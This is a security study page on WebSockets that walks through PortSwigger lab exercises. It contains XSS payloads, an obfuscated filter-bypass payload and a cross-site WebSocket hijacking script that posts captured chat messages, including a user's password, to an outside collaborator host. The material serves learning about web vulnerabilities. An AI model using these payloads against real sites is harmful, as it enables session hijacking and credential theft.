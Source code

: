 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WebSockets

{% hint style="info" %}
A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.
{% endhint %}

## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

```javascript
<img scr=x onerror=alert()>;
```

<figure><img src="../../.gitbook/assets/web_websockets_1.png" alt=""><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><img src="../../.gitbook/assets/web_websockets_2.png" alt="" width="563"><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><img src="../../.gitbook/assets/web_websockets_3.png" alt=""><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).

{% code overflow="wrap" %}
```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/web_websockets_4.png" alt=""><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

### Blacklisted IPs

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

In an effort to replicate our [XXS via WebSockets](websockets.md#xxs-via-websockets) attack process, we get our IP address blacklisted (Figure 6).

```javascript
<img src=x onerror=alert()>;
```

<figure><img src="../../.gitbook/assets/web_websockets_5.png" alt=""><figcaption><p>Figure 6: Sending an XSS payload gets our IP address blocked.</p></figcaption></figure>

We can try different [IP-tracking HTTP headers](authentication/rate-limiting.md) to bypass this filter and send a slightly obfuscated payload instead (Figure 7).

```javascript
<img scr=x oNeRroR=alert`1`>
```

<figure><img src="../../.gitbook/assets/web_websockets_6.png" alt=""><figcaption><p>Figure 7: Bypassing the server's filters.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript
